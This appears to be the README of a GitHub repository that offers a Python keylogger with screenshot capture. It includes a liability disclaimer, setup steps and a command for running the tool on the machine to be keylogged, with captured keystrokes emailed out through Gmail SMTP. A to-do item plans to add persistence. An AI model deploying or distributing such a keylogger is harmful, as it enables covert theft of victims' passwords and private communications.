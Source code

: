 # Copyright (C) 2020  Cennef0x
# Python-Keylogger
Python Keylogger with screenshots

This program is free software: you can redistribute it and/or modify it

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
This script was made available for informational and educational purposes only.
Any actions and or activities related to the material contained within this repository is solely your responsibility.The misuse of the information in this repository can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the scripts in this repository to break the law.
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


This script use gmail smtp servers, you will need and account to send the keystrokes log.

STEP 1 - Install the requirements

STEP 2 - Add your API KEY into screenshoter.py at line 20

STEP 3 - Start the script from the console in the machine your want to keylog : 

python main.py "myemail@gmail.com" "myemailpassword" "theemailyouwanttosendthelogs@mail.com

To stop it close the cli or kill the process if you use executed this script without the console

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# To-Do 

- Make it persistent
